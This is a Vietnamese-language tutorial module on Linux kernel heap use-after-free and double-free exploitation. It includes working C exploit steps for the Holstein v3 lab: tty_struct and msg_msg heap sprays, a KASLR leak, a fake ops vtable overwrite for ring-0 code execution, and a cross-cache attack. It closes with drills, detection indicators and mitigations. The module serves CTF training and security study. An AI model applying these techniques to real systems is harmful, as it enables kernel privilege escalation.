

> **Prerequisites**: [[02-kernel-memory-management|02. Kernel Memory & SLUB]] · [[03-kernel-security-mitigations|03. Mitigations]] · [[04-kernel-debug-environment|04. Debug Environment]]
> **Objectives**:
> - Hiểu cơ chế UAF và Double Free trong kernel heap
> - Thực hiện heap spray để chiếm slot của freed object
> - Thực hiện cross-cache attack trên kernel hiện đại
> - Xây dựng read/write primitive từ UAF bug
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc — UAF
> - Kernel module có lỗi: `kfree(ptr)` nhưng không zero `ptr` → dangling pointer còn dùng được
> - Attacker có thể gọi cả hai path: path dùng dangling ptr VÀ path free
> - Cần biết size của vulnerable object để tìm đúng spray candidate
>
> [!note] Điều kiện bắt buộc — Double Free
> - `kfree(ptr)` được gọi hai lần với cùng pointer
> - Không có check freelist integrity (kernel cũ) hoặc cần bypass check (kernel mới)
>
---

## Cơ chế tấn công

![[img-06-uaf-mechanism.svg]]
*Hình 6: UAF exploit timeline — từ allocation, free (dangling pointer), heap spray, đến exploitation qua fake vtable*

### Use-After-Free — Bốn giai đoạn

**Giai đoạn 1 — Allocation**: Module allocate `vuln_obj`, lưu pointer vào `global_ptr`.

**Giai đoạn 2 — Free**: `kfree(global_ptr)` được gọi — object trở về freelist. Nhưng `global_ptr` vẫn trỏ đến địa chỉ cũ (dangling pointer).

**Giai đoạn 3 — Heap Spray**: Attacker allocate nhiều objects cùng size và cùng GFP flags → SLUB tái sử dụng slot cũ → spray object giờ nằm tại địa chỉ của `vuln_obj`.

**Giai đoạn 4 — Exploitation**: Module vẫn dùng `global_ptr` để đọc/ghi → thực chất đang đọc/ghi vào spray object → fake vtable, address leak, hoặc overwrite critical fields.

### Phân tích vulnerable code pattern

```c
// Ví dụ: Holstein v3 (pawnyable.cafe)
static long module_ioctl(struct file *file, unsigned int cmd,
                         unsigned long arg) {
    switch (cmd) {
    case CMD_ALLOC:
        g_buf = kmalloc(0x400, GFP_KERNEL);  // alloc 1024 bytes
        break;
    case CMD_FREE:
        kfree(g_buf);                         // BUG: g_buf không bị NULL sau free!
        break;
    case CMD_GET:
        copy_to_user((void*)arg, g_buf, 0x400);   // đọc từ dangling pointer!
        break;
    case CMD_SET:
        copy_from_user(g_buf, (void*)arg, 0x400); // ghi vào dangling pointer!
        break;
    }
}
```

### Spray Objects phổ biến — kmalloc-1024

Khi vuln_obj ở `kmalloc-1024` cache, các spray candidates:

| Object | Tạo bằng | Đặc điểm | Dùng để |
|--------|---------|---------|---------|
| `tty_struct` | `open("/dev/ptmx")` | Có `ops` vtable pointer | RIP control qua fake ops |
| `pipe_buffer` | `pipe()` + `write()` | Có `page` pointer | Arbitrary page read/write |
| `msg_msg` | `msgsnd()` | Có `list.next/prev` | KASLR leak + controlled data |
| `user_key_payload` | `add_key()` | Inline data, variable size | Controlled data spray |

### Cross-Cache Attack — Cho kernel hiện đại

Trên kernel >= 6.1 với `CONFIG_RANDOM_KMALLOC_CACHES` và `CONFIG_SLAB_BUCKETS`, heap spray đơn giản không còn hiệu quả. Cần cross-cache:

```text
Bước 1: Exhaust tất cả slabs hiện tại
         → Allocate rất nhiều object cùng loại để force mới
Bước 2: Free tất cả → slab page trả về buddy allocator
Bước 3: Trigger kfree(vuln_obj) → vuln slot trả về freelist
         Nếu slab hoàn toàn trống → page trả về buddy
Bước 4: Spray target objects để buddy allocate page đó cho cache khác
         → cùng physical page, khác virtual cache
```

---

## Quy trình tấn công

**Môi trường**: Holstein v3, kernel 5.15, KASLR on, SMEP/SMAP on.

**Bước 1 — Setup: mở device và tìm info**

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <string.h>
#include <unistd.h>

#define CMD_ALLOC 0x1001
#define CMD_FREE  0x1002
#define CMD_GET   0x1003
#define CMD_SET   0x1004

int fd;

void alloc() { ioctl(fd, CMD_ALLOC, 0); }
void release() { ioctl(fd, CMD_FREE, 0); }

void uaf_read(char *buf, size_t sz) {
    memset(buf, 0, sz);
    ioctl(fd, CMD_GET, (unsigned long)buf);
}

void uaf_write(char *buf, size_t sz) {
    ioctl(fd, CMD_SET, (unsigned long)buf);
}

int main() {
    fd = open("/dev/holstein", O_RDWR);
    if (fd < 0) { perror("open"); return 1; }
    // ...
}
```

> **Expected output**: File descriptor mở thành công, fd > 0.
>
**Bước 2 — Trigger UAF và spray tty_struct**

```c
// 1. Allocate và free vuln_obj
alloc();
release();   // g_buf freed nhưng vẫn là dangling pointer!

// 2. Spray tty_struct vào slot freed (kmalloc-1024)
int spray_fds[100];
for (int i = 0; i < 100; i++) {
    spray_fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray_fds[i] < 0) break;
}
// Một trong 100 lần open() sẽ allocate tty_struct tại địa chỉ cũ của g_buf
```

> **Expected output**: 100 file descriptors mở thành công.
>
**Bước 3 — Verify spray hit: kiểm tra tty_struct magic**

```c
char buf[0x400];
uaf_read(buf, 0x400);

// tty_struct bắt đầu bằng magic number 0x5401
unsigned int magic = *(unsigned int*)buf;
if (magic == 0x5401) {
    printf("[+] Spray hit! tty_struct nằm tại g_buf\n");
} else {
    printf("[-] Spray miss, thử lại hoặc tăng spray count\n");
}
```

> **Expected output**: `[+] Spray hit!` khi spray thành công.
>
**Bước 4 — KASLR leak qua tty_struct.ops**

```c
// tty_struct layout (offset 24): ops pointer → vtable ở kernel text
unsigned long *p = (unsigned long*)buf;
unsigned long tty_ops_addr = p[3];   // offset 0x18 = ops pointer

// Tính kernel base từ ops pointer
// tty_ops symbol = tty_ops_addr
// kernel_base = tty_ops_addr - (offset của tty_ops trong vmlinux)
// Tìm offset: nm vmlinux | grep " ptm_unix98_ops"
unsigned long kernel_base = tty_ops_addr - 0xc3afc0;  // offset thay đổi theo kernel version
printf("[+] Kernel base: 0x%lx\n", kernel_base);

// Tính địa chỉ commit_creds và prepare_kernel_cred
unsigned long commit_creds_addr        = kernel_base + 0x0a1420;
unsigned long prepare_kernel_cred_addr = kernel_base + 0x0a14c0;
```

> **Expected output**: Kernel base address được in ra — verify bằng cách cộng với offset của một symbol đã biết.
>
**Bước 5 — Ghi fake vtable để RIP control**

```c
// Tạo fake ops table trong userspace (với SMAP off)
// Hoặc trong kernel heap (với SMAP on, phải dùng cách khác)

// Cách đơn giản (SMAP off): fake ops trong userspace
unsigned long fake_ops[30];
memset(fake_ops, 0, sizeof(fake_ops));
fake_ops[12] = (unsigned long)&shell_code;   // offset 12 = ioctl handler

// Ghi fake ops vào tty_struct qua dangling pointer
memset(buf, 0, 0x400);
memcpy(buf, tty_struct_original, 0x400);     // giữ nguyên header
*(unsigned long*)(buf + 0x18) = (unsigned long)fake_ops;  // overwrite ops
uaf_write(buf, 0x400);

// Trigger ioctl trên spray fd → gọi fake ops.ioctl
for (int i = 0; i < 100; i++) {
    ioctl(spray_fds[i], 0, 0);   // gọi đến shellcode
}
```

> **Expected output**: RIP redirect thành công → shellcode thực thi trong Ring 0.
>
---

## Biến thể & Bypass

### Double Free exploitation

```c
// Bug code:
kfree(obj);
// ... some code ...
kfree(obj);   // double free!

// Exploitation: sau 2 lần kfree, freelist có dạng:
// freelist → obj → obj → ...
// Alloc A → lấy obj, viết controlled data vào
// Alloc B → lấy obj lại! → attacker có hai con trỏ đến cùng vùng nhớ
// Corrupt freelist pointer qua Alloc A → kiểm soát địa chỉ của Alloc tiếp theo
```

### CPU pinning để tăng spray reliability

```c
// Pin exploit thread lên CPU 0 để tránh per-CPU cache mixing
cpu_set_t cpu;
CPU_ZERO(&cpu);
CPU_SET(0, &cpu);
sched_setaffinity(0, sizeof(cpu), &cpu);
// Sau đó thực hiện spray — tất cả alloc/free đều trên CPU 0
```

### msg_msg spray để leak với controlled size

```c
// msg_msg cho phép controlled size (0–8KB), GFP_KERNEL
#include <sys/msg.h>

struct {
    long mtype;
    char mtext[0x400 - 0x30];  // size = kmalloc size - msg_msg header
} msg;

int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
msg.mtype = 1;
memset(msg.mtext, 0x41, sizeof(msg.mtext));
msgsnd(qid, &msg, sizeof(msg.mtext), 0);
// → allocate msg_msg + payload tại kmalloc-1024
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm tty_struct magic và ops offset**

```bash
# tty_struct layout
grep -r "tty_magic\|TTY_MAGIC" /usr/src/linux/include/linux/tty.h
# #define TTY_MAGIC 0x5401

# ops pointer offset trong tty_struct
pahole -C tty_struct vmlinux | grep -A2 "ops"
# ops: (offset 24)  ← offset 0x18
```

**Tìm spray object layout**

```bash
# Kích thước tty_struct
pahole -C tty_struct vmlinux | head -5
# struct tty_struct { ... }; /* size: 1152, ... */

# msg_msg header size
pahole -C msg_msg vmlinux
# /* size: 48 */ → payload bắt đầu sau 48 bytes header
```

**Cross-cache attack — force slab return**

```c
// Step 1: Exhaust slabs
int fds[4096];
for (int i = 0; i < 4096; i++)
    fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);

// Step 2: Free all → slabs return to buddy
for (int i = 0; i < 4096; i++) close(fds[i]);

// Step 3: Free vulnerable object
release();  // vuln slab page → buddy

// Step 4: Spray target objects
for (int i = 0; i < 4096; i++)
    fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```

---

## Daily Drill

**Thời gian**: 25–35 phút/ngày trong 14 ngày đầu.

**Drill 1 — Identify spray candidate**
Mục tiêu: Từ vulnerable object size, tìm spray candidate trong 3 phút.

```bash
# object size 1024 → kmalloc-1024
# Spray candidates: pipe_buffer, msg_msg + 0x3d0 body, tty_struct (nếu dedicated cache được link)
pahole -C tty_struct vmlinux | head -2
# Confirm: tty_struct size ~ 1152 → dedicated cache, không cùng kmalloc-1024
# → Dùng msg_msg với body size 0x3d0 (1024 - 48 header)
```

Luyện cho đến khi: size → cache → spray candidate là phản xạ tức thì.

**Drill 2 — Verify spray hit**
Mục tiêu: Viết verification code cho tty_struct spray trong 5 phút.

```c
uaf_read(buf, 0x400);
if (*(uint32_t*)buf == 0x5401) printf("[+] hit\n");
else printf("[-] miss\n");
```

Luyện cho đến khi: verification logic tự viết không cần notes.

**Drill 3 — Full UAF chain**
Mục tiêu: Hoàn thành Holstein v3 exploit từ đầu không nhìn writeup.

Luyện cho đến khi: 4 giai đoạn (alloc → free → spray → exploit) thuần thục.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **KASAN report**: `BUG: KASAN: use-after-free in <module>+0x<offset>`
> - Xuất hiện ngay khi UAF xảy ra (nếu KASAN được bật)
> - Chứa call stack của cả alloc, free, và UAF access
>
> **Kernel oops**: Unexpected kernel fault khi truy cập freed memory
> - Thường là null deref hoặc bad address nếu không có heap spray
>
> **dmesg anomaly**: Nhiều `open("/dev/ptmx")` trong thời gian ngắn từ một process
>
> [!note] Mitigation
> - Zero pointer sau kfree: `kfree(ptr); ptr = NULL;`
> - Dùng `kfree_sensitive()` cho security-sensitive objects
> - Enable `CONFIG_SLUB_DEBUG` để detect use-after-free sớm
> - Enable KASAN trong production debug builds: `CONFIG_KASAN=y`
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| pawnyable.cafe | **Holstein v3** | Classic UAF với tty_struct spray |
| pawnyable.cafe | **Holstein v4** | UAF với SMAP, cần kernel heap spray |
| HTB | **Hospital** (Retired) | Real CVE với UAF path |
| CTF | **kUlele** (crewCTF 2024) | Cross-cache UAF trên kernel 6.9 |

---

## Field Manual Entry

> [!abstract] Kernel Heap UAF — Quick Reference
> **Điều kiện**: kfree() không zero pointer, attacker có read/write path qua dangling ptr
> **Spray**: `open("/dev/ptmx")` × 100 cho tty_struct; `msgsnd()` cho msg_msg
> **Verify spray hit**: `*(uint32_t*)buf == 0x5401` (tty_struct magic)
> **KASLR leak**: `ops_ptr = *(ulong*)(buf + 0x18)` → `base = ops_ptr - symbol_offset`
> **CPU pin**: `sched_setaffinity(0, sizeof(cpu), &cpu)` trước khi spray
> **Ref**: [[06-heap-uaf-double-free|06. Heap UAF & Double Free]]
>